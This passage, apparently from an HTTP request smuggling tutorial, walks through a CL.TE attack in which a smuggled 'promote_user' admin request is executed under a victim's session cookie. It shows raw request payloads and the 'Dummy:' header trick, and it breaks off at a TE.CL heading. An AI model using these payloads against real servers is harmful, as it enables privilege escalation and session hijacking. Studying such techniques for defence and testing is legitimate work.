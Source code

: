 #### Victim Request (sent shortly after):

```http
GET / HTTP/1.1
Host: target.site
Cookie: session=<user_session>
```

#### Proxy View:

```
POST / HTTP/1.1
Content-Length: 52
Transfer-Encoding: chunked

0

POST /api/promote_user?id=2 HTTP/1.1
Dummy:
GET / HTTP/1.1
Host: target.site
Cookie: session=<user_session>
```

#### Backend View:

```
POST / HTTP/1.1
Transfer-Encoding: chunked

0

POST /api/promote_user?id=2 HTTP/1.1
Dummy: GET / HTTP/1.1
Host: target.site
Cookie: session=<user_session>
```

The backend executes the smuggled admin request using the authenticated session of the victim.

---

### Why Use `Dummy:`?

- The `Dummy:` line is necessary to ensure the backend treats the first line of the victim's request as a **valid HTTP header**, preserving request format.
    
---

# 2. TE.CL Request Smuggling

## Concept
